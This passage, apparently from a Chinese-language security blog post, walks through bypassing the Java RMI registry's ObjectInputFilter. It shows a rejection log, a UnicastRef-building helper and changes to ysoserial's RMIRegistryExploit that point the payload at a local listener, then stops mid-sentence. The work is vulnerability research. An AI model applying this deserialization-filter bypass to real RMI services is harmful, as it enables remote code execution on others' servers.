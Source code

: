 ```
ServerMain provide RPC service now
九月 20, 2018 12:31:57 下午 java.io.ObjectInputStream filterCheck
信息: ObjectInputFilter REJECTED: class sun.reflect.annotation.AnnotationInvocationHandler, array length: -1, nRefs: 8, depth: 2, bytes: 298, ex: n/a
```

这里很明显为什么是AnnotationInvocationHandler这个了类被拦截了，因为在CommonsCollections2中其实是利用了动态代理加强之后，如果不了解这步更多详情可以移步[java反序列化漏洞-玄铁重剑之CommonsCollection(上)](http://www.codersec.net/2018/02/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-%E7%8E%84%E9%93%81%E9%87%8D%E5%89%91%E4%B9%8BCommonsCollection(%E4%B8%8A)/)

根据限制所以我把目光放在Number(不考虑)，Remote，Proxy，UnicastRef，RMIClientSocketFactory，RMIServerSocketFactory，ActivationID，UID(基本不考虑)这几个类中。

其中UnicastRef引起了我的注意，如果稍微有点印象的就可以知道UnicastRef本身Amf3反序列化的时候使用过。

那么转换攻击思路就来了:

![](http://pic.findbugs.top/18-9-20/8759288.jpg)

## 调试之路

说是这么说，但是自己在调试和尝试的过程中踩了很多坑，还好没放弃。参考RMIRegistryExploit我们重点就是要构造好Remote对象，首先先构造好UnicastRef。直接采用[【技术分享】Java AMF3 反序列化漏洞分析](https://www.anquanke.com/post/id/85846)的类似写法

```
public static UnicastRef generateUnicastRef(String host, int port) {
    java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
    sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
    sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
    return new sun.rmi.server.UnicastRef(liveRef);
}
```

然后稍做在RMIRegistryExploit的基础上稍微做一点改动，直接把

```
Object payload = payloadObj.getObject(command);//CommonsCollections2 
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
```

改成

```
 Object payload = generateUnicastRef("127.0.0.1", "3348");
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
```

答案是服务器依旧爆ObjectInputFilter REJECTED，这个很正常，因为经过Gadgets.createMemoitizedProxy的处理逻辑本身就是AnnotationInvocationHandler这个用来动态代理，在本地服务器调试的时候加上

System.setProperty("sun.rmi.registry.registryFilter", "java.**;sun.reflect.annotation.**;com.sun.**");发现是可以执行命令的，说明我们的思路是对的，UnicastRef直接也可以反序列化的，那么接下来就是要想办法怎么去绕过ObjectInputFilter REJECTED这个限制了，本身UnicastRef是在registryFilter的范围之内的，但是在registry.bind(name, remote)的时候需要传入一个Remote对象。思路很清晰就是我们如果把UnicastRef封装成Remote类型,比如:
